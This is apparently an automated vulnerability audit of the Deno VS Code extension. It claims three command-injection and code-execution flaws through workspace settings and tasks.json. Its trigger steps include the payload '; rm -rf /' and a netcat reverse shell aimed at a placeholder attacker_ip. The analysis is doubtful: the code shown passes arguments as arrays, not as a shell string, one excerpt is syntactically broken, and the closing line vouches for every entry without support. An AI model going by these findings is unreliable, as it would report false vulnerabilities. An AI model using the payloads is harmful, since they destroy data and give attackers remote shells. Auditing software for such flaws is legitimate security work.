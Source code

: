 # Vulnerability List

## 1. Command Injection via Test Configuration Arguments
**Vulnerability Name:** Command Injection via Test Configuration Arguments
**Description:**
The extension allows users to configure test arguments through the `deno.codeLens.testArgs` setting. These arguments are directly passed to the Deno CLI without proper validation or sanitization. An attacker can manipulate a malicious repository's configuration to include malicious arguments (e.g., `"; rm -rf /`), leading to command injection. When the user runs tests, the Deno CLI executes the injected command, resulting in arbitrary code execution.

**Step-by-Step Trigger:**
1. An attacker provides a malicious repository with a `settings.json` or `.vscode/settings.json` file containing:
   ```json
   {
     "deno.codeLens.testArgs": ["--allow-all", "; rm -rf /"]
   }
   ```
2. The user opens the repository in VSCode and enables Deno via the extension.
3. The attacker tricks the user into running a test via the "Run Test" code lens or debug configuration.
4. The malicious command (e.g., `rm -rf /`) executes in the background due to improper sanitization of `testArgs`.

**Impact:**
Critical. Attackers can execute arbitrary commands with the user’s privileges, leading to data destruction or system compromise.

**Vulnerability Rank:** Critical
**Currently Implemented Mitigations:** None. The `testArgs` are directly concatenated into the command line.
**Missing Mitigations:** Lack of input validation/sanitization for `testArgs`.
**Preconditions:**
- User opens a malicious repository with a configured `deno.codeLens.testArgs`.
- The user runs a test via the extension's UI.

**Source Code Analysis:**
- **File:** `client/src/commands.ts`
  - The `test` function constructs the Deno CLI command using `testArgs`:
    ```typescript
    const testArgs: string[] = [
      ...(config.get<string[]>("codeLens.testArgs") ?? []),
    ];
    ```
  - These args are directly passed to the `deno test` command without validation:
    ```typescript
    const args = ["test", ...testArgs, "--filter", nameRegex, filePath];
    ```

- **File:** `client/src/debug_config_provider.ts`
  - The debug configuration uses user-provided `runtimeArgs` without validation:
    ```typescript
    runtimeArgs: [
      "run",
      ...this.#getAdditionalRuntimeArgs(),
      this.#getInspectArg(),
      "--allow-all",
    ],
    ```

**Security Test Case:**
1. Create a malicious repository with a `.vscode/settings.json` containing malicious `testArgs`.
2. Open the repository in VSCode with the Deno extension enabled.
3. Add a test file (e.g., `test.ts`) and trigger the test via the code lens.
4. Observe the malicious command execution (e.g., a file deletion or system command).

---

## 2. RCE via User-Controlled Deno Path
**Vulnerability Name:** RCE via User-Controlled Deno Path
**Description:**
The extension allows users to specify the Deno executable path via the `deno.path` setting. If this path is manipulated to point to a malicious script (e.g., `deno_malicious.sh`), the extension will execute it when starting the language server, leading to remote code execution.

**Step-by-Step Trigger:**
1. An attacker provides a malicious repository with a `settings.json` or `.vscode/settings.json` file containing:
   ```json
   {
     "deno.path": "/path/to/attacker-controlled/deno.sh"
   }
   ```
2. The malicious script (`deno.sh`) contains arbitrary commands (e.g., `echo "Attacker owns this machine" > /tmp/exploit`).
3. The user opens the repository in VSCode.
4. The extension starts the Deno language server using the malicious path, executing the attacker’s script.

**Impact:**
Critical. The attacker gains control over the user’s system via the malicious Deno executable.

**Vulnerability Rank:** Critical
**Currently Implemented Mitigations:** None. The path is directly used without validation.
**Missing Mitigations:** Lack of validation for the `deno.path` to ensure it points to an official Deno binary.
**Preconditions:**
- User opens a malicious repository with a configured `deno.path`.

**Source Code Analysis:**
- **File:** `client/src/util.ts`
  - `getDenoCommandPath` uses the user-provided `deno.path` directly:
    ```typescript
    const command = getWorkspaceConfigDenoExePath();
    // ... executed without validation
    ```

- **File:** `client/src/extension.ts`
  - The language server is started using the unvalidated `command`:
    ```typescript
    const serverOptions: ServerOptions = {
      run: {
        command,
        args: ["lsp"],
        options: { env },
      },
    };
    ```

**Security Test Case:**
1. Create a malicious repository with `deno.path` pointing to a script that writes a file.
2. Open the repository in VSCode with the Deno extension.
3. Observe the creation of the file (e.g., `/tmp/exploit`) due to the malicious Deno executable executing.

---

## 3. Command Injection via Task Definitions
**Vulnerability Name:** Command Injection via Task Definitions
**Description:**
The extension allows users to define custom Deno tasks in JSON configuration files (e.g., `tasks.json`). These tasks include user-specified command-line arguments and environments. If an attacker manipulates a malicious repository’s task definitions to include malicious arguments/environments, the extension will execute them verbatim, leading to command injection.

**Step-by-Step Trigger:**
1. An attacker creates a malicious repository with a `tasks.json` in `.vscode/`:
   ```json
   {
     "type": "deno",
     "command": "run",
     "args": ["--allow-all", "malicious.ts", "; nc -e /bin/sh attacker_ip 4444"]
   }
   ```
2. The user opens the repository and executes the task via the tasks panel.
3. The malicious command (e.g., reverse shell) executes due to unsanitized `args`.

**Impact:**
High. Attackers can execute arbitrary commands via crafted task definitions.

**Vulnerability Rank:** High
**Currently Implemented Mitigations:** None. The `args` and `env` are directly used.
**Missing Mitigations:** Lack of validation/sanitization for task arguments and environment variables.
**Preconditions:**
- User runs a task defined in a malicious repository’s `tasks.json`.

**Source Code Analysis:**
- **File:** `client/src/tasks.ts`
  - The `buildDenoTask` function constructs commands using user-provided `args`:
    ```typescript
    const args = [definition.command].concat(definition.args ?? []);
    // ... passed directly to the ProcessExecution
    ```

- **File:** `client/src/tasks_sidebar.ts`
  - Task definitions are parsed and executed without validation:
    ```typescript
    const task = buildDenoConfigTask(
      (workspaceFolder, process, configTask.name, configTask.command ?? configTask.detail, Uri.parse(configTask.sourceUri));
    ```

**Security Test Case:**
1. Create a malicious repository with a `tasks.json` containing a task with malicious `args`.
2. Open the repository in VSCode and execute the task.
3. Observe the malicious command execution (e.g., a reverse shell connection).

---

**Summary Table**
| Vulnerability Name                                | Rank   | Class              | Impact                                                                 |
|--------------------------------------------------|--------|--------------------|-------------------------------------------------------------------------|
| Command Injection via Test Configuration Arguments | Critical | Command Injection | Arbitrary command execution with user privileges (e.g., file deletion, reverse shells) |
| RCE via User-Controlled Deno Path                 | Critical | RCE             | Execution of arbitrary code via a malicious Deno binary                          |
| Command Injection via Task Definitions           | High    | Command Injection | Arbitrary command execution via task configurations                            |

This list includes only valid, unmitigated vulnerabilities of RCE/Command/Code Injection classes ranked High or higher, excluding DoS or documentation-only issues. All entries meet the criteria specified.
